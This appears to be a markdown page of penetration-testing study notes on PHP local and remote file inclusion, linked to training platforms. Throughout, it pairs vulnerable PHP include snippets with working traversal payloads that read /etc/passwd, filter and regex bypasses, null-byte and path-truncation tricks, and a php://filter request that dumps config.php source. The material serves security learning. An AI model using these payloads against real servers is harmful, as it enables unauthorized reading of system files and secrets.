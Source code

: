```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# File Disclosure

{% hint style="info" %}
Manipulating HTTP parameters to display the content of any local file on the hosting server.
{% endhint %}

Two types of file disclosure:

1. [**LFI**](#user-content-fn-1)[^1] -> the file chosen to be included is local on the target machine
2. [**RFI**](#user-content-fn-2)[^2] -> the file is included on other machines

The common place we usually find LFI within is **template engines**. These keep the static parts of the web application the same when navigating between different pages. For example, `/index.php?page=about'`:

* `/index.php` sets the static content
* `?page=about` pulls the dynamic content, e.g. `about.php`

## Basic LFI

Using **absolute path**.

```php
# The whole input is used
include($_GET['language']);
```

```html
<!-- Basic LFI -->
/index.php?language=/etc/passwd
```

## Path Traversal

Using **relative path.**

```php
# String appended/prepended to the parameter
include("./languages/" . $_GET['language']);
```

```html
<!-- Path traversal -->
/index.php?language=../../../../../../etc/passwd
```

{% hint style="info" %}
**Default on using Path Traversal** -> works in both cases. \
If unsure for the `pwd` **keep adding `../`** -> does not break the path.
{% endhint %}

## Filename Prefix

Using `/../` (_the directory may not exist and may break some FI techniques, such as PHP wrappers/filters_).

```php
# Input appended after another string
include("lang_" . $_GET['language']);
```

```html
<!-- Bypassing prefix -->
/index.php?language=/../../../etc/passwd
```

## Appended Extensions

```php
# Extension appended to the target parameter
include($_GET['language'] . ".php");
```

### Path Truncation (ealier PHP versions)

* Max strings length is `4096` chars -> everything longer is truncated.
* Trailing `/` and `.` in path names are truncated (`/etc/passwd/.` -> `/etc/passwd`).
* Both PHP and Linux disregard multiple `/` in the path ( `////etc/passwd` =`/etc/passwd`).
* Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded.

Based on the those characteristics, we can create very long strings that evaluate to the target path.

{% hint style="warning" %}
For this technique to work, we need to **start the path with a non-existing directory**.
{% endhint %}

{% code overflow="wrap" %}
```html
<!-- Creating a string longer than 4096 chars -->
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Creating the above with bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done non_existing_directory/../../../etc/passwd/./././././././
```
{% endcode %}

### Null Byte (PHP < 5.3.4)

Appended extensions can be also bypassed with the use of a **null byte** (`%00` or `0x00`).

```html
<!-- Commenting out the extension -->
/index.php?language=/../../../etc/passwd%00
```

## Path Traversal Filters

### Search and Replace

One of the most common defences against LFI -> deletes substrings of `../,` e.g. `../../../etc/passwd` -> `.languages/etc/passwd`.

```php
# Search and replace method
$language = str_replace('../', '', $_GET['language']);
```

If **non-recursive**, i.e., runs just a single time on the input string -> double up the `../` (or `..././`, `..../`, `....////`, etc).&#x20;

```html
<!-- Bypassing a non-recursive search and replace filter -->
/index.php?language=....//....//....//etc/passwd
```

### Character Filters

If `.` and/or `/` are banned -> URL-encode once or twice.

## Approved Paths

Regex usage to ensure that the file being included is under a defined directory -> include the directory within the payload.

{% code overflow="wrap" %}
```php
# Using regex to "lock" down the directory
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) { include($_GET['language']); } else { echo 'Illegal path specified!'; }
```
{% endcode %}

```html
<!-- Bypassing regex filters -->
/index.php?language=./languages/../../../etc/passwd
```

## PHP Filters

Read the source code of PHP files.

```html
<!-- Exfiltrating the source code of the config.php file -->
/index.php?language=php://filter/read=convert.base64-encode/resource=config.php
```

For an example of this check [StreamIO](../../../../boxes/boxes/medium/streamio.md#local-file-inclusion).

## Second-Order Attacks

Poison a database entry, so another web application functionality gets tricked or our registration name. This type of attack is often overlooked by the developers, as values pulled from the application's database is generally trusted, i.e., not sanitized.

1. Option to download our avatar via `/profile/$username/avatar.png`.
2. Craft a malicious LFI username, such as `../../../etc/passwd`.

## Resources

{% tabs %}
{% tab title="HTB" %}
{% embed url="https://academy.hackthebox.com/module/details/23" %}
{% endtab %}

{% tab title="PostSwigger" %}
{% embed url="https://portswigger.net/web-security/file-path-traversal" %}
{% endtab %}

{% tab title="THM" %}
{% embed url="https://tryhackme.com/jr/fileinc" %}
{% endtab %}
{% endtabs %}

as

[^1]: Local File Inclusion

[^2]: Remote File Inclusion
